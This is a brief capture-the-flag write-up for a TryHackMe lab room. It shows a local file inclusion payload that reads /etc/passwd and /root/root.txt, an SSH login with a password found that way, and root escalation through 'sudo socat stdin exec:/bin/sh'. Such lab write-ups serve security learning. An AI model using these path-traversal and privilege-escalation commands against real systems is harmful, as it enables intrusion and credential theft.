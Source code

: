 ```yaml
---
title: Inclusion
description: 'LFI to get SSH credentials and escalating to root with socat'
pubDate: 2021-06-26
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/5e2656cb5a909ddf63395dd7e7a377ad.png'
---
```


## LFI
view-source:http://10.10.202.16/article?name=../../../../../../../etc/passwd

```
...[snip]...
#falconfeast:rootpassword
...[snip]...

## USER
```bash
ssh falconfeast@10.10.202.16 <- rootpassword
```


## ROOT
```bash
sudo -l
```

Shows socat can be execute as root

```bash
sudo socat stdin exec:/bin/sh
```

## NOTES
The web app is running as root.

So to get the root flag:
`http://10.10.202.16/article?name=../../../../../../../root/root.txt`
